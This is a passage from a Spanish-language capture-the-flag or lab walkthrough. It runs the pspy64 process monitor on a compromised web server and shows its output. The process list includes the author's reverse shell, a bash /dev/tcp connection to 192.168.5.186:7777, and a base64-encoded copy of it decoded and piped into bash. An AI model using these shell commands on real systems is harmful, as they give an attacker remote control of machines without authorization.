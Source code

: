 Una vez que nos lo hayamos pasado, le pondremos permisos de ejecuccion de la siguiente forma:

```shell
chmod +x pspy64
```

Y ahora lo ejecutamos:

```shell
./pspy64
```

Info:

```
pspy - version: v1.2.1 - Commit SHA: f9e6a1590a4312b9faa093d8dc84e19567977a6d


     ██▓███    ██████  ██▓███ ▓██   ██▓
    ▓██░  ██▒▒██    ▒ ▓██░  ██▒▒██  ██▒
    ▓██░ ██▓▒░ ▓██▄   ▓██░ ██▓▒ ▒██ ██░
    ▒██▄█▓▒ ▒  ▒   ██▒▒██▄█▓▒ ▒ ░ ▐██▓░
    ▒██▒ ░  ░▒██████▒▒▒██▒ ░  ░ ░ ██▒▓░
    ▒▓▒░ ░  ░▒ ▒▓▒ ▒ ░▒▓▒░ ░  ░  ██▒▒▒ 
    ░▒ ░     ░ ░▒  ░ ░░▒ ░     ▓██ ░▒░ 
    ░░       ░  ░  ░  ░░       ▒ ▒ ░░  
                   ░           ░ ░     
                               ░ ░     

Config: Printing events (colored=true): processes=true | file-system-events=false ||| Scanning for processes every 100ms and on inotify events ||| Watching directories: [/usr /tmp /etc /home /var /opt] (recursive) | [] (non-recursive)
Draining file system events due to startup...
done
2025/01/19 10:46:34 CMD: UID=33    PID=742    | ./pspy64 
2025/01/19 10:46:34 CMD: UID=33    PID=516    | bash 
2025/01/19 10:46:34 CMD: UID=33    PID=515    | sh -c bash 
2025/01/19 10:46:34 CMD: UID=33    PID=514    | script /dev/null -c bash 
2025/01/19 10:46:34 CMD: UID=33    PID=472    | /bin/bash -i 
2025/01/19 10:46:34 CMD: UID=33    PID=471    | /bin/bash -c /bin/bash -i >& /dev/tcp/192.168.5.186/7777 0>&1 
2025/01/19 10:46:34 CMD: UID=33    PID=470    | bash 
2025/01/19 10:46:34 CMD: UID=33    PID=466    | sh -c echo 'L2Jpbi9iYXNoIC1jICcvYmluL2Jhc2ggLWkgPiYgL2Rldi90Y3AvMTkyLjE2OC41LjE4Ni83Nzc3IDA+JjEnCg==' | tee /tmp/shell; base64 -d /tmp/shell | bash 
2025/01/19 10:46:34 CMD: UID=33    PID=363    | /usr/sbin/apache2 -k start 
2025/01/19 10:46:34 CMD: UID=33    PID=304    | /usr/sbin/apache2 -k start 
2025/01/19 10:46:34 CMD: UID=33    PID=303    | /usr/sbin/apache2 -k start 
2025/01/19 10:46:34 CMD: UID=33    PID=302    | /usr/sbin/apache2 -k start 
2025/01/19 10:46:34 CMD: UID=0     PID=270    | tail -f /dev/null 
2025/01/19 10:46:34 CMD: UID=0     PID=264    | sshd: /usr/sbin/sshd [listener] 0 of 10-100 startups 
2025/01/19 10:46:34 CMD: UID=0     PID=211    | logger -t mysqld -p daemon error 
2025/01/19 10:46:34 CMD: UID=100   PID=210    | /usr/sbin/mariadbd --basedir=/usr --datadir=/var/lib/mysql --plugin-dir=/usr/lib/mysql/plugin --user=mysql --skip-log-error --pid-file=/run/mysqld/mysqld.pid --socket=/run/mysqld/mysqld.sock                                                                            
2025/01/19 10:46:34 CMD: UID=0     PID=83     | /bin/sh /usr/bin/mysqld_safe 
2025/01/19 10:46:34 CMD: UID=0     PID=48     | /usr/sbin/cron 
2025/01/19 10:46:34 CMD: UID=33    PID=39     | /usr/sbin/apache2 -k start 
2025/01/19 10:46:34 CMD: UID=33    PID=38     | /usr/sbin/apache2 -k start 
2025/01/19 10:46:34 CMD: UID=33    PID=37     | /usr/sbin/apache2 -k start 
2025/01/19 10:46:34 CMD: UID=33    PID=36     | /usr/sbin/apache2 -k start 
2025/01/19 10:46:34 CMD: UID=33    PID=35     | /usr/sbin/apache2 -k start 
2025/01/19 10:46:34 CMD: UID=0     PID=30     | /usr/sbin/apache2 -k start 
2025/01/19 10:46:34 CMD: UID=0     PID=1      | /bin/sh -c a2enmod rewrite &&     service apache2 restart &&     service cron start &&     service apache2 start &&     service mariadb start &&     service ssh start &&     setfacl -m u:www-data:0 /opt/python3 &&     tail -f /dev/null
```